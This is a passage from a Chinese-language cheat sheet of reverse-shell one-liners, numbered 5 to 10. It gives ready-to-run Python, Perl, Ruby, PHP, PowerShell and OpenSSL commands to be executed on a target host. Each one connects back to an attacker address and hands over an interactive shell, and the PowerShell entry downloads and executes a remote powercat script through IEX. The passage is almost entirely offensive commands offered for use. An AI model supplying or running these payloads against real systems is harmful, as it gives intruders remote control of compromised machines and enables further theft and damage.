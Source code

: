 ### 5. Python反弹

```text
# 目标主机上执行
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"]);'
```

### 6. Perl反弹

```text
# 目标主机上执行
perl -e 'use Socket;$i="x.x.x.x";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 7. Ruby反弹

```text
# 目标主机上执行
ruby -rsocket -e 'c=TCPSocket.new("x.x.x.x","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 8. PHP反弹

```text
# 目标主机上执行（假设有Web服务器权限）
php -r '$sock=fsockopen("x.x.x.x",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

### 9. Powershell反弹（Windows环境）

```text
# 攻击者主机上执行监听（使用Powercat脚本）
powershell IEX (New-Object System.Net.WebClient).DownloadString('http://x.x.x.x:port/powercat.ps1'); powercat -c x.x.x.x -p port -e cmd
# 目标主机上执行（假设可以下载并执行Powercat脚本）
```

### 10. OpenSSL反弹

```text
# 这种方法利用OpenSSL生成自签名证书，并通过TLS/SSL隧道传输shell会话。
# 攻击者主机上生成密钥并启用监听
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port port
# 目标主机上执行
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect x.x.x.x:port > /tmp/s; rm /tmp/s
```

